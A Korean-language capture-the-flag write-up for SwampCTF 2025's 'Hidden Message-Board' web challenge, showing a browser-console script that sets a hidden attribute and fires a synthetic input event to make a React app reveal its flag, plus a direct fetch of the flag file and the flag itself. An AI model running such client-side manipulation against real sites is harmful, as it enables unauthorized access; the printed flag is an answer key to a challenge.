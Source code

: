 # 🧃 SwampCTF 2025 Writeup - [Hidden Message-Board]

**Category:** Web  
**Points:** 50  
**Tags:** `CTF`, `Web`, `swampctf`

---

## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![Pasted image](./Pasted%20image%2020250403001512.png)

- 메시지 보드 페이지가 존재함
- React 기반 SPA 구조로 구성됨

---

## 🎯 The Goal

> 플래그를 얻기 위한 주요 목표 정리

- [x] 메시지 보드 구조 분석
- [x] React 내부 상태 확인 및 조작

---

## 💉 Exploit

### 🛠️ Step 1. 개발자 도구로 페이지 분석

![Pasted image](./Pasted%20image%2020250403001737.png)

- 소스에서 `<div id="flagstuff">` 와 `G1v3M3Th3Fl@g!!!!` 문자열 확인
- 조건에 맞는 `code` 값 설정 시 `getFlag()` 실행되는 구조

### 🛠️ Step 2. React 내부 로직 확인

```js
if (printFlagSetup.getAttribute("code") === "G1v3M3Th3Fl@g!!!!") {
  const flag = await getFlag();
  setFlagValue("[flag]: " + flag);
}
```

- React Virtual DOM 기반이므로 단순 DOM 수정은 무효
- textarea 입력 이벤트로 리렌더링 유도 필요

### 🛠️ Step 3. Exploit 스크립트 실행

```js
(function () {
  const FLAG_CODE = "G1v3M3Th3Fl@g!!!!";

  const flagDiv = document.getElementById("flagstuff");
  if (flagDiv) {
    flagDiv.setAttribute("code", FLAG_CODE);
    console.log("[+] code attribute set");
  } else {
    console.error("[-] flagstuff not found");
    return;
  }

  const textarea = document.querySelector("textarea");
  if (textarea) {
    const nativeInputValueSetter = Object.getOwnPropertyDescriptor(window.HTMLTextAreaElement.prototype, "value").set;
    nativeInputValueSetter.call(textarea, " ");

    const inputEvent = new Event("input", { bubbles: true });
    textarea.dispatchEvent(inputEvent);

    console.log("[+] triggered real input event");
  } else {
    console.error("[-] textarea not found");
  }
})();
```

👉 브라우저 개발자 도구 콘솔에 붙여 넣어 실행하면 flag가 화면에 출력됨 🎉

![Pasted image](./Pasted%20image%2020250403001855.png)

### 🔎 Unintended Solution

- `/static/js/bundle.js` 내부에서 flag 파일 경로 확인 가능
- 직접 접근: [`/static/media/flag.d93dd6a8616cc31d36db.txt`](http://chals.swampctf.com:43333/static/media/flag.d93dd6a8616cc31d36db.txt)

---

## 🍪 Info Leakage or Gain

- React의 Virtual DOM 구조는 DOM 조작만으로 상태 변경되지 않음
- 이벤트 트리거 방식으로 우회 가능
- 프론트 JS 코드에서 민감 로직이 노출된 사례

---

## 👑 Accessing the Flag

```
swampCTF{Cr0ss_S1t3_Scr1pt1ng_0r_XSS_c4n_ch4ng3_w3bs1t3s}
```

---

## 🧠 Conclusion

- React는 상태 기반이므로 단순 DOM 변경은 무시됨
- `setAttribute()`만으로는 무효 → **이벤트 기반 조작 필요**
- 실제 사용자 입력을 흉내내어 상태 변화 유도 가능
- 클라이언트 렌더링 기반에서도 flag 노출 가능성 존재

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_